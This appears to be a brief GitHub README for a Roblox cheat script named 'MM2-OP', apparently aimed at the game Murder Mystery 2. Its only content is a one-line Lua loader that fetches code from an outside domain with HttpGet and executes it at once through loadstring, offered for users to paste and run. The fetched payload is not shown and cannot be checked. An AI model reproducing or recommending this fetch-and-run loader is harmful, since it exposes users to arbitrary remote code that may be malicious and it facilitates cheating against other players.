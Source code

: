# MM2-OP



loadstring(game:HttpGet("https://egorikusa.space/d4b3e5f4bfc7830e4e4faf52.lua", true))()
